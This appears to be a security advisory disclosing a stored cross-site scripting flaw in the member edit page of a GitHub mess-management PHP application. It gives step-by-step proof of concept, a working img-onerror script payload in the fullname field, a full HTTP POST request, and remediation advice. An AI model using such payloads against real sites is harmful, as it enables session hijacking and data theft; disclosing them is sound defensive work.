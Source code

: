 # boyiddha / Automated-Mess-Management-System - /member/member_edit.phpStored XSS

## Vendor Homepage:
[Automated-Mess-Management-System](https://github.com/boyiddha/Automated-Mess-Management-System)

## Impact
The presence of Stored Cross-Site Scripting (XSS) in the /member/member_edit.php endpoint of boyiddha's Automated-Mess-Management-System poses a significant security risk. Attackers can exploit this vulnerability to inject malicious scripts into the application, which will be executed within the context of other users' browsers upon viewing the infected page. This could result in unauthorized access to sensitive information, session hijacking, defacement of web pages, or phishing attacks targeting users. Furthermore, if an attacker manages to exploit an administrative account with injected scripts, it could lead to complete compromise of the system, posing a significant risk to data confidentiality, integrity, and overall system security.

## Proof of Concept
Step 1: Login as a member.\
Step 2: Go to Update membership\
Step 3: Edit the member information with the payload "><img src=x onerror=alert("NoChizPlz")> on the fullname parameter\
Step 4: Click Update
Step 5: Injected payload will reflect after reload


## HTTP Request Example
``` http request
POST /member/member_edit.php?edit=[REDACTED] HTTP/1.1
Host: [REDACTED]
Content-Length: 795
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0gvZpaMviFXnB8sJ
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED]
Connection: close

------WebKitFormBoundary0gvZpaMviFXnB8sJ
Content-Disposition: form-data; name="name"

><img src=x onerror=alert("NoChizPlz")>
------WebKitFormBoundary0gvZpaMviFXnB8sJ
Content-Disposition: form-data; name="email"

[REDACTED]
------WebKitFormBoundary0gvZpaMviFXnB8sJ
Content-Disposition: form-data; name="password"

[REDACTED]
------WebKitFormBoundary0gvZpaMviFXnB8sJ
Content-Disposition: form-data; name="phone"

[REDACTED]
------WebKitFormBoundary0gvZpaMviFXnB8sJ
Content-Disposition: form-data; name="room"

302
------WebKitFormBoundary0gvZpaMviFXnB8sJ
Content-Disposition: form-data; name="address"

[REDACTED]
------WebKitFormBoundary0gvZpaMviFXnB8sJ
Content-Disposition: form-data; name="update"

Update 
------WebKitFormBoundary0gvZpaMviFXnB8sJ--

```
## Proof with Screenshot

## Remidiation
To mitigate this issue, developers should implement proper input validation and output encoding to prevent the execution of malicious scripts. Additionally, the application should sanitize user inputs to neutralize any potentially harmful content before rendering it in the browser.

## CWE
[CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
